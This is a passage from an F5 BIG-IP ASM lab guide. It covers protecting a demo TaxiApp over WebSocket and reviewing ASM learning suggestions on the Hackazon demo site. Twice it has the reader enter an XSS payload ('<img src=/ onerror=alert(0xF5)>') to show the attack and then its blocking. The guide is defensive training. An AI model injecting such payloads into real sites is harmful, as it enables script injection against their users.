~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Chrome, In the F5 WebUI open the Websocket\_virtual properties
   page.

2. Ensure that Advanced view is set and associate the default WebSocket
   profile to the virtual. Click .

|image67|\ |image68|

    In order for ASM to properly parse the WebSocket content, a
    websocket profile must be assigned to the virtual.

Step 2 – Review TaxiApp
~~~~~~~~~~~~~~~~~~~~~~~

1. In Firefox, browse to `www.taxiapp.com <http://www.taxiapp.com>`__.
   Click on the Admin tab and login as admin/admin.

    |image69| |image70|

    This is the admin console of the Taxi app and allows the app admin
    to see what clients and drivers are using the app.

1. On the Desktop, open the TaxiApp client emulator by double-clicking
   the icon.

    |image71|

1. In the TaxiApp client emulator, click on the Client tab and enter
   your name. Click Order.

    |image72|

    The TaxiApp client passes data to the backend application over a
    WebSocket connection. You should see your name and a location appear
    in the admin console of the taxi app.

Step 3 – Attack TaxiApp
~~~~~~~~~~~~~~~~~~~~~~~

1. In the TaxiApp client, enter the following XSS attack string in the
   Name field. Click Order.

    <img src=/ onerror=alert(0xF5)>

|image73|\ |image74|

**
**

Exercise 2 – WebSocket Protection
---------------------------------

Step 1 – Create ASM WebSocket Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. In Chrome, In the F5 WebUI create a new ASM policy with the following
   settings:

    |image75|\ Name: Websocket-policy

    Policy Template: Rapid Deployment

    Virtual Server: Websocket\_virtual

    Learning: Disabled

    Enforcement: Blocking

    Language: utf-8

    Signature Staging: Disabled

1. In the TaxiApp client, enter the following XSS attack string in the
   Name field. Click Order.

    <img src=/ onerror=alert(0xF5)>

|image76|

1. Review the ASM Request Log for this request.

    |image77|

1. Look at the request immediately prior to this websocket request.

    |image78|

Lab 6 – ASM Learning (Optional Exercise)
========================================

The purpose of this lab is to introduce new features and changes to
learning in ASM in 13.0. This lab only focuses on Server Technology
Learning. There are MANY more new enhancements to ASM Learning in 13.0.
A separate lab will be created in the future to demo all of these
features.

Exercise 1 – Policy Creation
----------------------------

|image79|\ Step 1: Create policy for Hackazon
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Advanced mode

2. Name: ASM\_Learning

3. Policy Template: Comprehensive

4. Associate to Hackazon VIP

5. Learning Mode: Manual

6. Enforcement Mode: Blocking

7. Language: utf-8

8. Enforcement Readiness: 0

Step 2: Review the Hackazon Virtual Security Tab config
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

    |image80|\ Ensure App Sec logging profile is assigned to VIP.

**
**

Step 3: Create and Configure Learning Suggestions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. |image81|\ Review Learning and Blocking Settings:

   a. Ensure that Advanced view is selected

   b. Expand Options section at bottom

2. Go to Traffic Learning page:

   a. No Learning Suggestions yet as policy has seen no traffic.

   b. Also, note the number of signatures applied to the policy

|image82|

**
**

1. Browse to http://hackazon.f5demo.com

   a. Click the Hackazon logo to refresh the home page

   b. Click on any item on the home page

|image83|

a. Change “Count” to 2 and click Add to Cart.

|image84|

a. In the Cart pop-up, click Show all Items in Cart

|image85|

a. On the Overview screen accept the defaults and click Next.

|image86|

a. On the Shipping Address screen complete the form and click Next

|image87|

a. On the Billing Address screen click Bill to this Address

Exercise 2: Server Technologies
-------------------------------

Step 1: Review ASM Learning
~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Return to the ASM WebUI and navigate to the Traffic Learning page

2. Refresh page if the browser was already at this page

3. Note Server Technologies learned and, again, note the number of
   signatures

|image88|

1. Accept all four Add Server Technologies suggestions and click Apply
   Policy

|image89|

1. Review Policy >> Server Technologies page

|image90|

1. |image91|\ Go to Learning and Blocking Settings page

   a. Change Loosen Policy settings

      -  Untrusted Sources: 1

      -  Hours: 0.1

      -  Days: 0.1

      -  Trusted Sources: 1

      -  Days: 0.1

   b. Click Save and Apply Policy

    | NOTE: We are only doing this to lower the time that it will take
      to **show** new Learning Suggestions for the purposes of the lab.
    | ***DO NOT do this in a production environment.***

Step 2: Review Learning Suggestions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

1. Return to the Hackazon browser window

   a. Click on the Hackazon logo to return to the home page

   b. Click the Sign In/Sign Up link in the top left corner

   c. Login as user1/user1

    |image92|

a. On the My Account page click on one of the existing orders

|image93|

a. Review the order then click on the Orders link to return to the
   Orders page.

|image94|

i.   Click the Hackazon logo to return to the home page

ii.  Click on any item on the home page and click Add to Cart

iii. Browse to your cart

iv.  On the Overview screen click Next

v.   On the Shipping screen, fill out the shipping information and click
     Next

vi.  On the Billing screen, click Bill to this Address

vii. On the Confirmation screen, click Place Order

|image95|

1. Return to the ASM WebUI and navigate to the Traffic Learning page.
   Review various Learning suggestion types

|image96|

.. |image0| image:: media/image1.png
   :width: 1.93667in
   :height: 0.61667in
.. |image1| image:: media/image3.png
   :width: 6.50000in
   :height: 2.88472in
.. |image2| image:: media/image4.png
   :width: 3.44722in
   :height: 1.79506in
.. |image3| image:: media/image5.png
   :width: 6.92003in
   :height: 1.83056in
.. |image4| image:: media/image8.png
   :width: 3.86111in
   :height: 2.07906in
.. |image5| image:: media/image9.png
   :width: 7.09919in
   :height: 1.82562in
.. |image6| image:: media/image10.png
   :width: 6.50000in
   :height: 2.88958in
.. |image7| image:: media/image11.png
   :width: 6.50000in
   :height: 2.90347in
.. |image8| image:: media/image12.png
   :width: 6.50000in
   :height: 2.90833in
.. |image9| image:: media/image13.png
   :width: 3.56482in
   :height: 2.46551in
.. |image10| image:: media/image14.png
   :width: 2.93518in
   :height: 1.68941in
.. |image11| image:: media/image15.png
   :width: 6.50000in
   :height: 1.24583in
.. |image12| image:: media/image16.png
   :width: 4.36449in
   :height: 0.58333in
.. |image13| image:: media/image17.png
   :width: 5.40208in
   :height: 1.47557in
.. |image14| image:: media/image18.png
   :width: 5.16736in
   :height: 2.00800in
.. |image15| image:: media/image19.png
   :width: 4.58403in
   :height: 2.43876in
.. |image16| image:: media/image20.png
   :width: 2.81720in
   :height: 3.62778in
.. |image17| image:: media/image21.png
   :width: 4.66736in
   :height: 2.48494in
.. |image18| image:: media/image22.png
   :width: 1.91736in
   :height: 2.74930in
.. |image19| image:: media/image23.png
   :width: 1.99931in
   :height: 0.91045in
.. |image20| image:: media/image24.png
   :width: 5.58403in
   :height: 2.98838in
.. |image21| image:: media/image25.png
   :width: 5.50556in
   :height: 2.89806in
.. |image22| image:: media/image26.png
   :width: 5.27500in
   :height: 2.80995in
.. |image23| image:: media/image27.png
   :width: 6.50000in
   :height: 2.91875in
.. |image24| image:: media/image28.png
   :width: 2.83403in
   :height: 2.12831in
.. |image25| image:: media/image29.png
   :width: 4.83403in
   :height: 2.59313in
.. |image26| image:: media/image30.png
   :width: 5.60133in
   :height: 2.70671in
.. |image27| image:: media/image31.png
   :width: 3.93510in
   :height: 4.16647in
.. |image28| image:: media/image32.png
   :width: 4.49604in
   :height: 3.72963in
.. |image29| image:: media/image33.png
   :width: 5.65208in
   :height: 2.60729in
.. |image30| image:: media/image34.png
   :width: 4.38689in
   :height: 3.58669in
.. |image31| image:: media/image35.png
   :width: 4.52384in
   :height: 2.82615in
.. |image32| image:: media/image36.png
   :width: 4.40903in
   :height: 2.76667in
.. |image33| image:: media/image17.png
   :width: 5.40208in
   :height: 1.47557in
.. |image34| image:: media/image37.png
   :width: 5.56875in
   :height: 3.71559in
.. |image35| image:: media/image38.png
   :width: 5.90208in
   :height: 2.08595in
.. |image36| image:: media/image39.png
   :width: 5.96909in
   :height: 2.32739in
.. |image37| image:: media/image40.png
   :width: 5.98542in
   :height: 2.59978in
.. |image38| image:: media/image41.png
   :width: 7.06875in
   :height: 3.00684in
.. |image39| image:: media/image42.png
   :width: 5.76458in
   :height: 3.61728in
.. |image40| image:: media/image43.png
   :width: 6.98542in
   :height: 4.27598in
.. |image41| image:: media/image44.png
   :width: 4.04254in
   :height: 2.47893in
.. |image42| image:: media/image45.png
   :width: 4.00786in
   :height: 2.45139in
.. |image43| image:: media/image46.png
   :width: 5.52500in
   :height: 3.52219in
.. |image44| image:: media/image47.png
   :width: 4.09653in
   :height: 1.66006in
.. |image45| image:: media/image48.png
   :width: 6.50000in
   :height: 3.48958in
.. |image46| image:: media/image49.png
   :width: 6.50000in
   :height: 3.36250in
.. |image47| image:: media/image50.png
   :width: 6.50000in
   :height: 3.02083in
.. |image48| image:: media/image51.png
   :width: 6.50000in
   :height: 3.32639in
.. |image49| image:: media/image52.png
   :width: 6.50763in
   :height: 4.14375in
.. |image50| image:: media/image53.png
   :width: 6.50000in
   :height: 1.93056in
.. |image51| image:: media/image54.png
   :width: 4.59653in
   :height: 2.77314in
.. |image52| image:: media/image55.png
   :width: 5.63542in
   :height: 4.51074in
.. |image53| image:: media/image56.png
   :width: 5.24583in
   :height: 3.81668in
.. |image54| image:: media/image57.png
   :width: 6.50000in
   :height: 4.30417in
.. |image55| image:: media/image58.png
   :width: 6.50000in
   :height: 4.09236in
.. |image56| image:: media/image59.png
   :width: 3.68750in
   :height: 3.87581in
.. |image57| image:: media/image60.png
   :width: 6.50000in
   :height: 4.10069in
.. |image58| image:: media/image61.png
   :width: 6.50000in
   :height: 3.28750in
.. |image59| image:: media/image62.png
   :width: 5.24583in
   :height: 1.45718in
.. |image60| image:: media/image63.png
   :width: 5.23885in
   :height: 3.31458in
.. |image61| image:: media/image64.png
   :width: 6.28472in
   :height: 3.84335in
.. |image62| image:: media/image65.png
   :width: 3.03819in
   :height: 2.01345in
.. |image63| image:: media/image66.png
   :width: 6.50000in
   :height: 4.11736in
.. |image64| image:: media/image67.png
   :width: 5.96736in
   :height: 3.25000in
.. |image65| image:: media/image68.png
   :width: 6.50000in
   :height: 2.51852in
.. |image66| image:: media/image69.png
   :width: 6.50000in
   :height: 3.31806in
.. |image67| image:: media/image70.png
   :width: 4.35625in
   :height: 4.17334in
.. |image68| image:: media/image71.png
   :width: 4.35625in
   :height: 3.96806in
.. |image69| image:: media/image72.png
   :width: 2.98485in
   :height: 1.90093in
.. |image70| image:: media/image73.png
   :width: 3.28354in
   :height: 1.88102in
.. |image71| image:: media/image74.png
   :width: 0.28697in
   :height: 0.42837in
.. |image72| image:: media/image75.png
   :width: 6.50000in
   :height: 4.13403in
.. |image73| image:: media/image76.png
   :width: 2.53819in
   :height: 3.37083in
.. |image74| image:: media/image77.png
   :width: 5.65486in
   :height: 3.09265in
.. |image75| image:: media/image78.png
   :width: 3.05764in
   :height: 2.78819in
.. |image76| image:: media/image76.png
   :width: 1.95278in
   :height: 2.59375in
.. |image77| image:: media/image79.png
   :width: 5.91458in
   :height: 2.90737in
.. |image78| image:: media/image80.png
   :width: 5.78472in
   :height: 3.17109in
.. |image79| image:: media/image81.png
   :width: 4.18125in
   :height: 3.72153in
.. |image80| image:: media/image82.png
   :width: 2.76458in
   :height: 2.28846in
.. |image81| image:: media/image83.png
   :width: 2.68125in
   :height: 1.90489in
.. |image82| image:: media/image84.png
   :width: 7.05000in
   :height: 3.44210in
.. |image83| image:: media/image85.png
   :width: 5.01458in
   :height: 3.73354in
.. |image84| image:: media/image86.png
   :width: 5.26458in
   :height: 2.72442in
.. |image85| image:: media/image87.png
   :width: 2.93125in
   :height: 0.92315in
.. |image86| image:: media/image88.png
   :width: 4.68125in
   :height: 2.46719in
.. |image87| image:: media/image89.png
   :width: 4.34792in
   :height: 2.86117in
.. |image88| image:: media/image90.png
   :width: 6.76623in
   :height: 2.25974in
.. |image89| image:: media/image91.png
   :width: 3.59792in
   :height: 2.54487in
.. |image90| image:: media/image92.png
   :width: 4.09792in
   :height: 2.07362in
.. |image91| image:: media/image93.png
   :width: 2.02487in
   :height: 2.22963in
.. |image92| image:: media/image94.png
   :width: 2.22399in
   :height: 1.66482in
.. |image93| image:: media/image95.png
   :width: 5.43125in
   :height: 1.77320in
.. |image94| image:: media/image96.png
   :width: 2.34792in
   :height: 2.28048in
.. |image95| image:: media/image97.png
   :width: 4.01458in
   :height: 2.69014in
.. |image96| image:: media/image98.png
   :width: 13.94805in
   :height: 3.03896in
